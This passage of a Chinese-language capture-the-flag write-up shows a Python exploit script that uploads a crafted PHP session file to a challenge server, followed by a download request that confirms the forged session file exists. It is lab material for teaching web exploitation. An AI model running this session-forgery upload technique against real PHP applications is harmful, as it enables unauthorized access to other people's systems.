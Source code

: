 ![19-4.png](19-4.png)

得到期望文件名: `sess_432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4`

### 上传 session

```python
#!/usr/bin/env python3
# exploit.py

import requests


def main():
    url = 'http://d2743252-1698-4694-bb65-5c34d52e5ef8.node5.buuoj.cn:81/'
    # 设置 PHPSESSID
    cookies = {
        'PHPSESSID': '0135183815e828dc4b4c89d1a14494d3'
    }
    # 普通表单字段
    data = {
        'direction': 'upload',
        'attr': ''
    }
    # 文件字段
    files = {
        'up_file': ('sess', open('sess', 'rb'))
    }

    resp = requests.post(url, cookies=cookies, data=data, files=files)
    print(f'[+] HTTP {resp.status_code}\n')
    print(resp.text)


if __name__ == '__main__':
    main()
```

构造刚刚预期的名字来验证:

```
direction=download&attr=&filename=sess_432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4
```
